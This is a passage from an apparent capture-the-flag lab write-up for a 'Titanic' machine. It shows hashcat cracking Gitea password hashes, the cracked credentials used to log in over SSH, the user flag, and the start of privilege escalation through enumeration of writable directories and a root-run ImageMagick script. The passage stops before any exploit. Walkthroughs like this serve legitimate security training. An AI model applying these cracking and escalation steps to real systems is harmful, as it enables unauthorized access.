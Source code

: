 
Now, our next step would be cracking the hashes:

```
hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user
```

Once it cracks, we can check them:

```
hashcat gitea.hashes --show --user

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
jimmy:sha256:50000:SSA8M0fsllcrScqVRxll1Q==:wnOGvOYSpdN8RrPjxlvCSjr25TJMm505WuohBMUEeJEyE8kpqjmC5FpfdJpbQ1ZJ6U0=:12345678
```

We can connect to ssh using the following credentials:

```
developer:25282528
```

Now we are able to get the first flag:

```
developer@titanic:~$ cat user.txt
707b718bb3700b8595aa1723e93622b3
```

Let's start privilege escalation.

# PRIVILEGE ESCALATION
---

We can begin by checking the writable directories:

```bash
find / -writable -type d 2>/dev/null
```

We get this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250225143731.png)

Now, if we check `/opt`, we can find a `/scripts` directory, it contains the following script:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250225143837.png)

```
developer@titanic:/opt/scripts$ cat identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```
